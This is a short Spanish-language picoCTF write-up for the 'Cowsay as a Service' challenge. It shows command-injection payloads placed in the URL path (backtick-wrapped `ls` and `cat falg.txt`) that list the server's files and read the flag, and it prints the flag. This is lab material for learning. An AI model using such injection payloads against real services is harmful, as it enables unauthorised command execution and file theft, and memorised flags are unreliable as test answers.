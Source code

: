 ## Objetivo
## Solución
- ##### Al entrar al sitio, nos dice lo siguiente:
```
Cowsay as a Service

Make a request to the following URL to cowsay your message: 
https://caas.mars.picoctf.net/cowsay/{message}
```

- ##### Por lo que podemos hacer que la vaca diga lo que quiera.
```
 _______________
< Seguridad GOD >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

- ##### Haremos exploits para descubrir la bandera.
```
https://caas.mars.picoctf.net/cowsay/%60ls%60
 __________________________________
/ Dockerfile falg.txt index.js     \
| node_modules package.json public |
\ yarn.lock                        /
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

https://caas.mars.picoctf.net/cowsay/%60cat%20falg.txt%60
 _________________________________________
/ picoCTF{moooooooooooooooooooooooooooooo \
\ oooooooooooooooooooooooooooooo0o}       /
 -----------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

- ##### Una vez hecho que la vaca nos dijera el contenido del archivo "falg.txt", obtenemos la bandera.
```
Flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
## Notas Adicionales
## Referencias
- [PicoCTF](https://play.picoctf.org)